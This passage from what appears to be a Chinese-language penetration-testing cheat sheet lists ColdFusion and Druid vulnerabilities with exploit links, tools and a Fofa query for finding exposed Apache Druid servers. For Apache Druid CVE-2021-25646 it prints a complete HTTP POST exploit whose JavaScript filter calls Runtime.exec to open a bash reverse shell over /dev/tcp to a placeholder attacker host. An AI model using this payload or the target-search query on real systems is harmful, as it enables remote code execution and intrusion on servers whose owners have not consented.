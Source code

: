 
### ColdFusion

**CVE-2017-3066 反序列化漏洞**
- POC | Payload | exp
    - https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md

---

### Druid

#### Alibaba_Druid

**未授权访问**
- 相关文章
    - [Druid未授权（弱口令）的一些利用方式](https://www.cnblogs.com/cwkiller/p/12483223.html)
    - [Druid未授权漏洞实战利用](https://www.t00ls.net/articles-62541.html)

- 相关工具
    - [yuyan-sec/druid_sessions](https://github.com/yuyan-sec/druid_sessions)

#### Apache_Druid

> 官网 : https://druid.apache.org/

> Fofa : title="Apache"&&title="Druid"

Apache Druid 是用 Java 编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。

**CVE-2021-25646**
- 描述

    Apache Druid 默认情况下缺乏授权认证，攻击者可以发送特制请求，利用Druid服务器上进程的特权执行任意代码。

- 影响版本
    - Apache Druid < 0.20.1

- 相关文章
    - [Apache Druid 远程代码执行漏洞 CVE-2021-25646](http://wiki.peiqi.tech/PeiQi_Wiki/Web%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%BC%8F%E6%B4%9E/Apache/Apache%20Druid/Apache%20Druid%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2021-25646.html)
    - [漏洞复现: Apache Druid 远程代码执行漏洞 (CVE-2021-25646)](https://paper.seebug.org/1476/)

- POC | Payload | exp
    ```
    POST /druid/indexer/v1/sampler HTTP/1.1
    Host: xxxxx
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
    Accept: application/json, text/plain, */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Content-Type: application/json
    Content-Length: 1044
    Connection: close

    {"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2020-12-12T12:10:21.040Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/xxx/xxx 0>&1')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
    ```
